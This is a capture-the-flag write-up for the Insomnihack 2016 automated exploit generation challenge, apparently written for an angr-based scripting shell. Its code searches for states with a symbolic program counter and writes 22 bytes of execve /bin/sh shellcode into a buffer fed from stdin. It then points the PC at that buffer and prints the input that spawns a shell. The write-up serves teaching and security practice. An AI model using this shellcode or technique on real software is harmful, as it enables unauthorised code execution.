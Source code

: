 # Insomnihack 2016 - AEG

In this challenge we have to create an automated exploitation script.
We set the keep_unconstrained flag, that allows us to find states where we have control of the program counter, and set extra options that allow us to automatically get the address of our buffer.
We disable verbose step so that we don't get spammed with step info like registers etc.
```
load 'demo_bin'
keep_unconstrained
set_entry_state add_options=['REVERSE_MEMORY_NAME_MAP', 'TRACK_ACTION_HISTORY']

verbose_step False
```
## Find a vulnerable state

Here we search our exploitable state, by checking unconstrained states for symbolic program counters.
Once we have a state where we have a controlled program counter we move over to the exploitation step.
```
def fully_symbolic(state):
    fully_sym = True
    for s in (chop_symbol &reg.pc):
        if not (is_symbolic s):
            fully_sym = False

    return fully_sym
            
exploitable_state_index = -1
while exploitable_state_index < 0:
    println exploitable_state_index
    step
    unconst = len (list_states unconstrained)
    for i in range(unconst):
        print "Checking the unconstrained states to see if they give control over the pc.\nStates to check:  "
        println (len (list_states unconstrained))
        select_state i unconstrained
        if fully_symbolic &state:
            println "Vulnerable state found, continue to exploit..."
            exploitable_state_index = i
            break
        else:
            move_state_to_stash i 'unconstrained' 'pruned'
```

# Exploiting the vulnerability

Now all we have left to do is set our shellcode in the buffer and make the PC point to that shellcode.
To do this we get the addresses our input occupies, then we check for a place where we have space for the shellcode and return that address.
```
def check_payload_fit(addr, addresses, length):
    result = True
    for i in range(length):
        to_test = addr + i
        if to_test in addresses:
            result = True
        else:
            result = False
            break
    return result
        


def get_controled_buffer_addr(shellcode_length):
    buffer_name = ""
    for var in get_stdin_variables:
        for n in &vars.var[0].variables:
            buffer_name = n
    target_address = -1
    buffer_addresses = get_addr_for_name buffer_name
    for addr in buffer_addresses:
        if (check_payload_fit addr buffer_addresses shellcode_length):
            target_address = addr
            break
    return target_address

shell_code = 0x6a68682f2f2f73682f62696e89e331c96a0b5899cd80
control_buffer_addr = get_controled_buffer_addr 22
```

Finally, we have to add two constraints, one that sets the shellcode in our buffer and one that sets the PC to point to the shellcode
We check if we have found a valid control buffer address and if the required constraints are satisfiable.
If they are satisfiable we add them and print the exploit string in hex.
```
if satisfiable &reg.pc == control_buffer_addr && &mem[control_buffer_addr->22] == shell_code && control_buffer_addr > 0:
    add_constraint &mem[control_buffer_addr->22] == shell_code
    add_constraint &reg.pc == control_buffer_addr
    to_hex (dump_stdstream stdin)
    print "Required input to spawn a /bin/bash shell: "
    println (dump_stdstream stdin)

```